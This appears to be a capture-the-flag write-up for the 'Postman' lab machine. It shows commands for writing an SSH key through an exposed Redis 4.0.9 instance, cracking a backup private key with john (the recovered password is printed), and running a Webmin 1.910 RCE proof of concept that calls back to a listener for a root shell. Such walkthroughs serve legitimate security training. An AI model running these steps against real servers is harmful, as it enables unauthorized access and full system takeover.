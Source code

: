 # Postman

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.2.1   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 02:05 EDT
Nmap scan report for 10.129.2.1
Host is up (0.0065s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt
```

Redis is open interestingly. So we can try to check for vulnerabilities there first.

### SSH Key Write

We can connect to Redis using `redis-cli`.&#x20;

```
$ redis-cli -h 10.129.2.1
10.129.2.1:6379> info
# Server
redis_version:4.0.9
```

The Redis version is really outdated, so we can try to find some exploits regarding it. Hacktricks has some methods of exploiting this by writing SSH keys.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh" %}

Just follow these commands:

```bash
ssh-keygen -t rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.129.2.1 -x set ssh_key
redis-cli -h 10.129.2.1
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
exit
chmod 600 id_rsa
ssh -i id_rsa redis@10.129.2.1
```

This would generate a pair of keys, and afterwards write it into the machine as the keys for `redis`. Then we can directly SSH in.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### User SSH Key

Within the `/home` directory, we find the user is called Matt

```
redis@Postman:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
drwxr-xr-x  6 Matt Matt 4096 Sep 11  2019 Matt
```

Within the `/opt` directory, there's a password encrypted `id_rsa` file.&#x20;

```
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
```

We can download this back to our machine and use `ssh2john` and `john` to crack it.&#x20;

```
$ ssh2john id_rsa.bak > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)     
1g 0:00:00:00 DONE (2023-05-02 02:17) 9.090g/s 2243Kp/s 2243Kc/s 2243KC/s confused6..comett
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Great! We now have a password for the user. We can use `su` to change from `redis` to `Matt`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (5).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

### Webmin

In the earlier `nmap` scan, we found that there were some HTTP ports that I didn't touch till now. Port 10000 has a Webmin instance running, and we can login using the credentials we just found.

<figure><img src="../../../.gitbook/assets/image (32) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (37) (1) (3).png" alt=""><figcaption></figcaption></figure>

This was running Webmin 1.910, which is vulnerable to RCE through Package Updates. There are tons of PoCs online.

{% embed url="https://github.com/NaveenNguyen/Webmin-1.910-Package-Updates-RCE/blob/master/exploit_poc.py" %}

```bash
$ python3 rce.py --ip_address 10.129.2.1 --port 10000 --lhost 10.10.14.13 --lport 4444 --user Matt --password computer2008
```

This would give us an easy `root` shell.

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>
